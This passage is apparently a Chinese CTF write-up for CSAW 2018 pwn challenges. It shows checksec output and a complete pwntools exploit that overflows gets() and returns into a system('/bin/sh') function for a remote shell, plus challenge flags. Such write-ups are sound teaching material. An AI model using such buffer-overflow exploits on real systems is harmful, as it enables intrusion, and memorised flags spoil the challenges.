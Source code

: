 

FLAG

```
flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
```



#### PWN—get it

```bash
➜  get_it file get_it
get_it: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=87529a0af36e617a1cc6b9f53001fdb88a9262a2, not stripped
➜  get_it checksec get_it
[*] '/home/Ep3ius/pwn/process/CSAW2018/get_it/get_it'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序的逻辑很简单，一个gets溢出，也给了system('/bin/sh')函数，虽然开了NX麻烦直接shellcode来getshell，但ret2text还是很简单的就直接给exp了

EXP

```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
#n = process('./get_it')
n = remote('pwn.chal.csaw.io',9001)

give_shell = 0x04005b6
buf = 'a'*(32+8)
payload = buf + p64(give_shell)

n.recvuntil('it??')
n.sendline(payload)

n.interactive()
```

FLAG

```
flag{y0u_deF_get_itls}
```



#### PWN—shell->code

```bash
➜  shellpointcode file shellpointcode
shellpointcode: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=214cfc4f959e86fe8500f593e60ff2a33b3057ee, not stripped
➜  shellpointcode checksec shellpointcode
[*] '/home/Ep3ius/pwn/process/CSAW2018/shellpointcode/shellpointcode'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
